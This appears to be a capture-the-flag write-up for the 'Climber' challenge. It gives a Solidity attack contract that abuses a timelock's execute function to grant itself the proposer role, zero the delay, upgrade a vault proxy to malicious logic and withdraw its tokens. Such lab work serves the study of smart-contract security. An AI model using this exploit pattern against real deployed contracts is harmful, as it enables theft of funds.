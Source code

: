 # Climber

1. In `ClimberTimelock.sol` contract, we can abuse `execute` by providing series of calls with this order : first we `grantRole(PROPOSER_ROLE,address(this))` at timelock contract, then we `updateDelay(0)` at timelock contract, `proxy.upgradeTo(address(this))` => at climbervault proxy contract (we change implementation logic to malicious address), call `proxy.withdraw(token,attacker)` at proxy address (withdraw is our new function inside malicious contract logic that we implement before), and finally call `schedule()` via malicious contract, since it now already have `PROPOSER_ROLE`. We have to separately call `schedule` via another function call since it impossible to put it on `data` array.

```solidity
   function schedule() external {
        ClimberTimelock(payable(timeLockAddress)).schedule(
            targetsAttacked,
            values,
            datas,
            0
        );
    }

    function attack(
        address climberLockAddress,
        address tokenAddress,
        address[] calldata targets
    ) external {
        // step by step :
        // 1. grantRole(PROPOSER_ROLE,address(this)) => at timelock
        // 2. updateDelay(0) => at timelock
        // 3. proxy.upgradeTo(address newImplementation) => at climbervault proxy
        // 4. proxy.withdraw(token,attacker) => at climbervault proxy
        // 5. schedule() => at this contract

        // first call data is setup grantRole
        for (uint i = 0; i < targetsAttacked.length; i++) {
            targetsAttacked[i] = targets[i];
        }

        bytes memory data1 = abi.encodeWithSignature(
            "grantRole(bytes32,address)",
            proposer_role,
            address(this)
        );
        datas[0] = data1;

        // then updateDelay to zero
        bytes memory data2 = abi.encodeWithSignature("updateDelay(uint64)", 0);
        datas[1] = data2;

        bytes memory data3 = abi.encodeWithSignature(
            "upgradeTo(address)",
            address(this)
        );
        datas[2] = data3;

        //transfer
        bytes memory data4 = abi.encodeWithSignature(
            "withdraw(address,address)",
            tokenAddress,
            msg.sender
        );
        datas[3] = data4;

        //schedule
        bytes memory data5 = abi.encodeWithSignature("schedule()");

        datas[4] = data5;

        ClimberTimelock(payable(climberLockAddress)).execute(
            targetsAttacked,
            values,
            datas,
            0
        );
    }
```
